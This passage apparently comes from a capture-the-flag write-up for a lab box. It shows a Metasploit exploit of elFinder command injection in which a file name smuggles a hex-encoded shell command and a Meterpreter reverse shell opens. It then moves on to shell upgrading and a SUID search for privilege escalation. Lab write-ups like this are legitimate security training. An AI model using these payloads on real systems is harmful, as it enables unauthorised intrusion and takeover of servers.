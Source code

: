 ```
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
[*] Started reverse TCP handler on 10.21.144.130:5000
[*] Uploading payload '6FB38RiCw.jpg;echo 6370202e2e2f66696c65732f3646423338526943772e6a70672a6563686f2a202e6b736658655338452e706870 |xxd -r -p |sh& #.jpg' (1969 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.ksfXeS8E.php) ...
[*] Sending stage (40004 bytes) to RHOST
[+] Deleted .ksfXeS8E.php
[*] Meterpreter session 1 opened (10.21.144.130:5000 -> RHOST:55242) at 2025-05-14 02:42:13 -0400
[*] No reply
[*] Removing uploaded file ...
[+] Deleted uploaded file

meterpreter >
```


---
# Exploitation

I dropped into a shell by running `shell`, peeked around at my UID (`www-data`), working directory (`/var/www/files.lookup.thm/public_html/elFinder/php`) and upgraded the shell by running:
`/bin/bash -i` and `export TERM=xterm`.

To search for SUID binaries: `find / -perm -4000 -type f 2>/dev/null`
- This command looks for any files with the SUID bit set.
- SUID bit (4000) means to "*run this file with the privileges of its owner, not the one running it*"
- So we're looking for SUID bit files, specifically binaries that are owned by root.

On this box, it returns:
```
<SNIP>
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pwm
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
```

Running `pwm` returns:
```
pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
